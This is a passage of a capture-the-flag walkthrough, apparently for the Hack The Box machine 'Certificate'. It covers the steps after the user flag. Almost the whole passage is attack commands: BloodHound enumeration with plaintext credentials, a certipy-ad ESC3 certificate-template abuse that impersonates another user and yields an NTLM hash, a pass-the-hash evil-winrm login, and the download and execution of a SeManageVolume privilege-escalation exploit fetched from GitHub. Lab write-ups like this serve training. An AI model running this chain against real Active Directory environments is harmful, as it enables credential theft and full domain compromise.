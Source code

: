 🎉 **USER FLAG OBTAINED** 🎉

---

### 6. Active Directory Certificate Services Abuse

#### Bloodhound Enumeration
```bash
bloodhound-python -d CERTIFICATE.HTB -u lion.sk -p '!QAZ2wsx' -gc dc01.certificate.htb -c all -ns 10.10.11.71
```

#### Find Vulnerable Certificate Templates
```bash
certipy-ad find -vulnerable -u lion.sk@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -stdout
```

**Key Finding:** ESC3 vulnerability in "Delegated-CRA" template

#### Request Enrollment Agent Certificate
```bash
certipy-ad req -u 'lion.sk@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
```

#### Perform On-Behalf-Of Attack for ryan.k
```bash
certipy-ad req -u 'lion.sk@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'
```

#### Authenticate as ryan.k
```bash
certipy-ad auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
```

**Result:** `ryan.k:aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6`

---

### 7. Privilege Escalation via SeManageVolume

#### Connect as ryan.k
```bash
evil-winrm -i 10.10.11.71 -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6
```

#### Download and Execute SeManageVolume Exploit
```bash
# Download exploit
curl -L -o SeManageVolumeExploit.exe https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe

# Upload to target
upload SeManageVolumeExploit.exe

# Execute exploit
./SeManageVolumeExploit.exe
```

---